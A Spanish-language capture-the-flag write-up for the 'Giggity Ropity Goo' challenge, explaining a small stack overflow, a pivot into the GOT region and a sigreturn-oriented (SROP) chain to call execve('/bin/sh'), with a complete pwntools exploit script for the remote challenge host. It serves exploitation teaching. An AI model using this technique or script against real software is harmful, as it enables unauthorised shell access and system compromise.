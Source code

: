 # Giggity Ropity Goo

## Introducion

El programa lee 0x110 bytes de un buffer de 0x100, no tiene PIE ni stack canary:
```
 checksec main
[*] '/home/kalcast/Descargas/Giggity_Ropity_Goo/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Puesto que 0x100 bytes de offset y 0x8 para el RBP almacenado solo nos deja espacio para un byte tenemos que hacer stack pivoting:
```
pwndbg> disass
Dump of assembler code for function main:
   0x0000000000401183 <+0>:     push   rbp
   0x0000000000401184 <+1>:     mov    rbp,rsp
=> 0x0000000000401187 <+4>:     sub    rsp,0x100
   0x000000000040118e <+11>:    mov    eax,0x0
   0x0000000000401193 <+16>:    call   0x401146 <setup>
   0x0000000000401198 <+21>:    mov    edi,0x3c
   0x000000000040119d <+26>:    call   0x401040 <alarm@plt>
   0x00000000004011a2 <+31>:    lea    rax,[rbp-0x100]
   0x00000000004011a9 <+38>:    mov    edx,0x110
   0x00000000004011ae <+43>:    mov    rsi,rax
   0x00000000004011b1 <+46>:    mov    edi,0x0
   0x00000000004011b6 <+51>:    call   0x401050 <read@plt>
   0x00000000004011bb <+56>:    mov    eax,0x0
   0x00000000004011c0 <+61>:    leave
   0x00000000004011c1 <+62>:    ret
End of assembler dump.
pwndbg>
```

Si retornamos a main+31 (0x00000000004011a2) tenemos otra entrada y puesto que el buffer(rsi) depende de rax y rax depende de rbp podemos escribir en rbp-0x100 nuestro nuevo stack y en rbp nuestro proximo gadget.

Si buscamos gadgets con ROPgadget encontramos una syscall:
```
ROPgadget --binary main | grep syscall
0x000000000040117c : syscall
```

Tenemos:
- Un buffer relativamente grande
- Una forma de controlar RAX
- Una syscall

Se cumplen las condiciones para hacer SROP.

## SROP (Signal Return Oriented Programming)

Siendo breve la syscall `rt_sigreturn`(0xf) es usada por el kernel del SO para reestablecer el estado de un programa despues de haberlo detenido.

Una vez se ejecuta se restaura un "Sigreturn Frame", que es un buffer de 0xf8(248) bytes desde donde apunta RSP.

<img width="691" height="672" alt="srop-example-1" src="https://github.com/user-attachments/assets/2613fc8d-51e2-473b-bff5-ec912d3deb8a" />

Este frame contiene todos los registros incluyendo `RIP`. Podemos redirigir la ejecucion hacia la syscall con rax=59, rdi=addr("/bin/sh\x00") y rsi=rdx=0 para llamar a `execve("/bin/sh",NULL,NULL)`

## Exploit

La idea aqui fue almacenar a partir de  RBP con el valor de `rt_sigreturn` + 0x100(RAX=RBP-0X100) en read@GOT+0x100, seguido del RSP (gadget de read) y el SigreturnFrame.

Luego se sobreescribe read@GOT con la direccion de la syscall y read@GOT+8 con "/bin/sh\x00".

```
*** segundo read ***

rbp = gotread + 0x100 + 0x100
rsp = stack_addr

buffer = gotread + 0x100
----------------------------------------
rt_sigreturn + 0x100     (gotread + 0x100)
read_gadget              (gotread + 0x108)
sigreturn_frame[8:0xf8]  (gotread + 0x110)
gotread + 0x100          (gotread + 0x200)
read_gadget              (gotread + 0x208)
----------------------------------------

*** tercer read ***

rbp = gotread + 0x100
rsp = read_gadget

buffer
----------------------------------------
syscall                  (gotread)
"/bin/sh"                (gotread + 0x8)
----------------------------------------

rbp = rt_sigreturn + 0x100
rsp = read_gadget

last gadget
------------------
rax = rt_sigreturn
edx = 0x100
rsi = rt_sigreturn
rdi = 0

syscall(rax) = syscall(sigreturn)
rip = syscall
rdi = gotread + 8

# Se recupera el Sigreturn Frame y se ejecuta execve("/bin/sh\x00",NULL,NULL)
```

```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./main")
#libc = ELF("./")
#ld = ELF("./")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
'''

domain= "chal.wwctf.com"
port = 7003

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================

log.info("Preparing Pivoting to .bss & Fake Frame")
syscall = 0x000000000040117c
payload = flat({0x100:[elf.got["read"] + 0x100 + 0x100, elf.sym["main"] + 31]}, filler=b"A")
r.send(payload)

frame = SigreturnFrame()
frame.rax = 59                              # syscall number for execve()
frame.rdi = elf.got["read"] + 0x8           # pointer to "/bin/sh" 
frame.rsi = 0                               # NULL
frame.rdx = 0                               # NULL
frame.rip = syscall                         # syscall address
frame.uc_flags = syscall
frame.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
frame = bytes(frame)

log.info("Frame length: %#x", len(frame))

log.info("Sending Fake Frame and preparing GOT read RIP")
# RBP(rt_sigreturn + 0x100) + RIP
payload2 = flat({0:[0x100 + 0xf, elf.sym["main"]+31, frame[0x8:0xf8]],
                    0x100:[elf.got["read"] + 0x100, elf.sym["main"] + 31]}, filler=b"\x00")
r.send(payload2)

log.info("Overwriting got read to syscall & get shell wi")
# Overwrite read to syscall
r.send(p64(syscall) + p64(u64(b"/bin/sh\x00")))
r.interactive()
```




